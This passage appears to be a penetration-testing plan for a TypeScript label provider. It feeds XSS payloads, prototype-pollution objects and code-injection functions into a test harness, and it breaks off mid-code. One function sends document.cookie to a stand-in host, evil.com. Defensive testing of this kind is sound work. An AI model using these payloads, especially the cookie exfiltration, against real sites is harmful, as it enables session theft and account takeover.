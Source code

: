 ### 3. Penetration Testing Scenarios

**Scenario 1: XSS via Labels**
```typescript
// Test Case: Can we inject JavaScript?
const xssPayloads = [
  '<script>alert(1)</script>',
  '<img src=x onerror=alert(1)>',
  '<svg onload=alert(1)>',
  'javascript:alert(1)',
  '<iframe src="javascript:alert(1)">',
  '<body onload=alert(1)>',
  '<input onfocus=alert(1) autofocus>',
  '<select onfocus=alert(1) autofocus>',
  '<textarea onfocus=alert(1) autofocus>',
  '<marquee onstart=alert(1)>',
  '<details open ontoggle=alert(1)>'
];

xssPayloads.forEach(payload => {
  testLabelProvider({
    'test.label': {
      description: payload,
      en: payload,
      et: payload,
      ru: payload
    }
  });
});
```

**Scenario 2: Prototype Pollution**
```typescript
// Test Case: Can we pollute Object.prototype?
const pollutionPayloads = [
  { '__proto__': { isAdmin: true } },
  { 'constructor': { prototype: { isAdmin: true } } },
  { '__proto__.isAdmin': true },
  { 'constructor.prototype.isAdmin': true }
];

pollutionPayloads.forEach(payload => {
  testLabelProvider({ labels: payload });

  // Check if pollution occurred
  const testObj = {};
  console.assert(!(testObj as any).isAdmin, 'Prototype pollution detected!');
});
```

**Scenario 3: Code Injection via Functions**
```typescript
// Test Case: Can we execute arbitrary code?
const codeInjectionPayloads = [
  (x: number) => { fetch('http://evil.com?data=' + document.cookie); return String(x); },
  (x: number) => { eval('alert(1)'); return String(x); },
  (x: number) => { new Function('alert(1)')(); return String(x); },
  (x: number) => { window.location = 'http://evil.com'; return String(x); },
  (x: number) => { localStorage.setItem('hacked', 'true'); return String(x); }
];

codeInjectionPayloads.forEach(payload => {
  testLabelProvider({
    'test.label': {
      en: payload,
```